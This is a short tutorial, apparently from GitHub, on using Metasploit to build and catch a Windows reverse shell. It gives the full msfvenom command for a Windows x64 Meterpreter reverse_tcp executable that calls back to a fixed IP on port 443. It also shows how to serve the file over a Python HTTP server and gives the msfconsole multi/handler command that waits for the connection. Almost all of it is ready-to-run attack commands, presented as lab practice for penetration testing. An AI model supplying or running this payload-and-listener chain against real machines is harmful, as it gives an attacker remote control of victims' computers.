 # Generating and Handling Windows Payloads with Metasploit

## 1. Generate a Windows 10/11 x64 Payload

Use the following command in Kali Linux to generate a conventional Windows 10/11 x64 payload with `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=20.40.46.181 LPORT=443 -f exe -o reverse.exe
```
## 2. Update LHOST and LPORT

    Change LHOST to the IP address of your Kali Linux machine.
    Change LPORT to the listening port on your Kali Linux machine. This can be any open port on Kali Linux.
![alt text]()
## 3. Transfer the Payload to a Windows VM

After generating the msfvenom payload for Windows 10/11 x64, transfer the payload to the testing Windows 10/11 VM using a Python HTTP server:
```bash
python3 -m http.server
```
## 4. Set Up and Start the Metasploit Listener

After successfully copying or sending the payload to the Windows VM, run the following command to set up and listen for a reverse connection from the Windows VM:
```bash
sudo msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 20.40.46.181; set LPORT 443; exploit"
```
## 5. Security Considerations

In this scenario, updated Windows 10/11 security features may block and isolate the executing payload, potentially removing it from the copied location.
## 6. Note

Ensure that the steps to generate and execute the payload are performed on Kali Linux with Metasploit Framework.
> Feel free to adjust the IP address and port number as needed for your specific setup!
